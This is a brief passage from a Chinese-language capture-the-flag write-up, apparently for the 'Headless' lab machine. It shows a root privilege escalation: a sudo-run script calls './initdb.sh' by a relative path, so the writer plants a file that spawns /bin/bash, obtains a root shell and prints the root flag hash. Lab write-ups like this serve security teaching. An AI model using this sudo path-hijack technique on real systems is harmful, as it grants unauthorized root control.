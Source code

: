 
在其中发现 `./initdb.sh` 脚本文件，并且没指定目录的话，此文件可控

```bash
(remote) dvir@headless:/home/dvir$ echo "/bin/bash" > initdb.sh
(remote) dvir@headless:/home/dvir$ chmod +x initdb.sh
```

## user - root

```bash
(remote) dvir@headless:/home/dvir$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...
whoami
root
```

### flag - root

```bash
cat root.txt
4d7c6f680cfe41ebfa19df7b06ac2273
```
